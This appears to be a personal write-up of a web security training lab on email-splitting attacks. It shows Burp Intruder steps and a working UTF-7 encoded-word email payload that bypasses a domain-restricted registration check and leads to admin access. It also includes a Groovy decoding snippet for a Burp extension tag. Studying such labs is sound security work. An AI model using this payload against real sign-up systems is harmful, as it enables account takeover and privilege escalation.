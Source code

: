 ```json
    "numberOfArgs": 1,
    "argument1": "charset",
    "language": "JavaScript",
    "tagName": "_encode_word_meta"
  },
  {
    "code": "output = input.replaceAll(\"&[a-zA-Z0-9]+-\", { match -> \n  return new String(match.replaceAll(\"[&-]\",\"\").decodeBase64())\n})",
    "numberOfArgs": 0,
    "language": "Groovy",
    "tagName": "_email_utf7_decode"
  }
]
```

## Lab

On the register account page, you could only register emails from `ginandjuice.shop`. This was using server side validation.
![[Pasted image 20240829163613.png | 500]]

**Using burp intruder**
1. send account registration request to intruder
2. insert payload position at the `email` form field
3. import the newly built in `FUZZING - email splitting attacks` wordlist from simple lists
4. use these payload processing rules (the lab provides a email server and address to use)
 ![[Pasted image 20240829163947.png]]
 5. From the results this payload seems to be the one that worked
```text
%3d%3futf-7%3fq%3fattacker%26AEA-exploit-0a8e0074048fe10183f6635101d400a3%2eexploit-server%2enet%26ACA-%3f%3dx@ginandjuice%2eshop
```
 ![[Pasted image 20240829173233.png ]]
 6. Received a registration email
 ![[Pasted image 20240829164115.png | 650]]
6. Can now login as an admin user and delete `carlos`
![[Pasted image 20240829163515.png]]
